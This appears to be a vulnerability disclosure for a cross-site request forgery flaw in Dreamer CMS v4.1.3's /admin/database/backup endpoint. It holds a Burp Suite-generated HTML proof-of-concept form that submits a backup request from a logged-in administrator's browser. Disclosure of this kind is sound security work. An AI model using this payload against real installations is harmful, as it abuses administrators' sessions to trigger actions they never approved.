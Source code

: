 Target is https://github.com/iteachyou-wjn/dreamer_cms

version:4.1.3

Dreamer CMS v4.1.3 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /admin/database/backup

![图片](https://github.com/849200701/cms/assets/152140706/860843eb-e8e0-4ef5-995d-292ce9ee3bd7)

create poc

![图片](https://github.com/849200701/cms/assets/152140706/d719132d-7b62-4f11-bd8e-59c2d72fd058)

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.247.186:8888/admin/database/backup">
      <input type="hidden" name="tableName" value="system&#95;adverts" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

successed

![图片](https://github.com/849200701/cms/assets/152140706/b595b2ab-fb04-43e9-bc3b-03c94f062080)
